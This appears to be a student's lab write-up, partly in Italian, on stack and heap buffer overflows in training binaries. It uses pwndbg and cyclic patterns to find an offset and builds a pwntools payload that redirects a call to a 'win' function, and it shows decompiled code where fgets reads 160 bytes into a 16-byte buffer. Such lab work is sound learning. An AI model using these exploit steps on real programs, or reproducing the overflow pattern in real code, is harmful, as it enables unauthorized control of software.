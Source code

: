 /lab03material/bof/bof

The source code is also available in the material file:

/lab03material/bof/bof4.c

```
pwndbg> r <<< $(cyclic 64 -n 8)
Segfault:

 RDX  0x6163616161616161 ('aaaaaaca')

0x4011a1 <main+45>               call   rdx                           <0x6163616161616161>

cyclic -n 8 -l aaaaaaca
10

Abbiamo il controllo sulla funzione da chiamare: contenuto di RDX, che viene sovrascritto a partire dall'undicesimo carattere che mettiamo

info functions
0x0000000000401142  win

10 caratteri di padding+indirizzo della win function in little endian=win

padding = b"A" * 10
function_address = p64(0x0000000000401142,endian="little")
payload = padding + function_address

```
### Exercise 5

```
Purpose: reverse the binaries then exploit the buffer overflow to bypass the
contraint. Do not patch the binaries.
Suggested tool: Radare2, Ghidra, then pwntools, shell + python, gdb.
Hints: Find the important function, then disassemble or decompile the
program. Plan the payload to inject to successfully mount the
exploit.
Source: cracksme.one
```
This exercise will ask you to perform some reverse engineering before understanding how to exploit a buffer
overflow.

The binary file is available in the lab03 material file:

/lab03material/bof/bof

```c
  printf("enter password: ");
  __s = (char *)malloc(16);
  puVar1 = (uint *)malloc(8);
  *puVar1 = 1;
  fgets(__s,160,stdin);
  printf("uid: %d\n",(ulong)*puVar1);
  if (*puVar1 == 0) {
    puts("you are logged in as admin");
  }
  else {
    puts("you are logged in as user");
  }
```
